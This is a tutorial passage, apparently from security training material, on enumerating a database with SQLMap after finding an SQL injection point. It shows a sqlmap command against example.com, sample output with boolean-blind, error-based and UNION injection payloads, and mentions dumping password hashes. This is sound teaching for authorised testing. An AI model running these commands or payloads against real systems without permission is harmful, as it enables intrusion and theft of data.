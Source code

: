 ## Basic DB Data Enumeration

Usually, after a successful detection of an SQLi vulnerability, we can begin the enumeration of basic details from the database, such as the hostname of the vulnerable target ( `--hostname`), current user's name ( `--current-user`), current database name ( `--current-db`), or password hashes ( `--passwords`). SQLMap will skip SQLi detection if it has been identified earlier and directly start the DBMS enumeration process.

Enumeration usually starts with the retrieval of the basic information:

- Database version banner (switch `--banner`)
- Current user name (switch `--current-user`)
- Current database name (switch `--current-db`)
- Checking if the current user has DBA (administrator) rights.

The following SQLMap command does all of the above:

```shell
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql'
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 13:30:58 /2020-09-17/

```